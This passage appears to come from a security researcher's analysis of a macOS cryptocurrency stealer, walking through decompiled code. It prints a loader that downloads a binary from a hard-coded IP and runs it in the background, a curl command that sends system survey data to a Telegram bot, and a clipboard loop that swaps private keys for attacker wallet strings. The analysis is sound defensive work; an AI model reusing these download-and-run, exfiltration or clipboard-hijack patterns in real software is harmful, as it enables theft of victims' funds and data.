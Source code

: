 ```
result = _main.downloadFile(..., "http://45.77.179.89/static/clip",);
if (!result) {
    _os.chmod(...);
    _main.executeFileInBackground(...);
}
```

The downloaded binary (`.Safari_V8_config`) what implements the stealer logic. By looking at it method names, we can get a pretty good idea about what it is up to:

```
_main.monitorClipboard
_main.executeOnce
_main.getHostnameAndUsername
_main.copyAndCompressWalletPlugins
_main.compressLogsdata
_main.uploadLogsdata
_main.isValidPrivateKey
_main.replaceAddresses
_main.sendTelegramNotification
```

First (again as noted by the Kandji researchers), it performs a basic survey of the infected system, which is sends to a Telegram bot. The logic for the former can be found in the `getHostnameAndUsername` method, while the latter, in the aptly named `sendTelegramNotification` method. Embedded strings within this method show it (ab)uses `curl` in order to send the telegram notification:

```
curl -m %d -s -X POST -H \'Content-Type: application/json\' -d \'%s\' \'https://api.telegram.org/bot%s/sendMessage\'
```

The `monitorClipboard` method is interesting. Its disassembly reveals it uses an open-source [clipboard](https://github.com/atotto/clipboard) library to monitor the victims clipboard. As items are placed on the clipboard the malware invokes a `isValidPrivateKey` method to see if the item is a private key. If so, as noted by another researcher, Alden, who [also analyzed the malware](https://alden.io/posts/cloudchat-returns/), “_\[the malware\] will replace the clipboard contents with an attacker controlled wallet string_”:

```
while (true) {
    rax_1 = github.com/atotto/clipboard.readAll(...);
    ...

    if(main.isValidPrivateKey(...)) {

        main.replaceAddresses(...);
        github.com/atotto/clipboard.writeAll(...);
    }
}
```

The downloaded binary (`.Safari_V8_config`) also, as is common to many stealers, looks for common cryptocurrency wallets. Specifically, it looks for those that are implemented as Chrome extensions. Any such cryptocurrency wallets are compressed and exfiltrated. Rather unusually, the exfiltration is done via FTP:
